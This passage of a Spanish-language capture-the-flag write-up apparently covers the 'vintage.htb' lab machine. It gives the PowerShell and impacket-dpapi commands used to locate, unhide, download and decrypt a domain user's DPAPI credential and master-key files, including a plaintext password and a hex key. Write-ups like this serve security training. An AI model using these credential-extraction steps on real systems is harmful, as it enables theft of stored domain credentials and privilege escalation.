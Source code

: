 Una vez obtenemos acceso al Domain Controller a través de **Evil-WinRM**, navegamos al directorio donde se almacenan las credenciales protegidas por DPAPI, específicamente en **C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials**. Usamos el comando **dir -force** para visualizar los archivos, luego eliminamos los atributos de oculto y solo lectura (**attrib -h -s**) para poder acceder a ellos. Finalmente, descargamos el archivo que contiene las credenciales con el comando **download** para proceder a su análisis posterior.

{% code overflow="wrap" %}
```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Credentials

dir -force

attrib -h -s 

download C4BB96844A5C9DD45D5B6A9859252BA6
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2741_vmware_Zu2NVnO7KZ.png" alt=""><figcaption></figcaption></figure>

Después de descargar el archivo, accedimos al directorio **Microsoft\Protect**, que es donde se guardan los datos de protección relacionados con las credenciales. Navegamos hasta la carpeta correspondiente al SID del usuario **C.Neri**, **S-1-5-21-4024337825-2033394866-2055507597-1115**, y encontramos otro archivo relacionado con las credenciales protegidas.

Realizamos el mismo procedimiento para eliminar los atributos de oculto y solo lectura y procedimos con la descarga del archivo **99cf41a3-a552-4cf7-a8d7-aca2d6f7339b.** En mi caso, si no se elimaba los atributos de oculto y solo lectura el **evil-winrm** nos daba un error.

{% code overflow="wrap" %}
```powershell
cd C:\Users\C.Neri\AppData\Roaming\Microsoft\Protect\

dir -force

cd S-1-5-21-4024337825-2033394866-2055507597-1115

dir -force

attrib -h -s 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b

download 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2742_vmware_yaRMMIhse0.png" alt=""><figcaption></figcaption></figure>

Una vez descargados ambos archivos de manera local en nuestro equipo, utilizamos la herramienta **impacket-dpapi** para desencriptar la _master key_ de DPAPI.

Con esta _master key_ en mano, procedimos a desencriptar los datos protegidos por DPAPI, lo que nos permitió acceder a las credenciales de un usuario del dominio (c.neri\_adm@vintage.htb).

{% code overflow="wrap" %}
```bash
impacket-dpapi masterkey -file 99cf41a3-a552-4cf7-a8d7-aca2d6f7339b -sid S-1-5-21-4024337825-2033394866-2055507597-1115 -password Zer0the0ne

impacket-dpapi credential -file C4BB96844A5C9DD45D5B6A9859252BA6 -key 0xf8901b2125dd10209da9f66562df2e68e89a48cd0278b48a37f510df01418e68b283c61707f3935662443d81c0d352f1bc8055523bf65b2d763191ecd44e525a
```
{% endcode %}
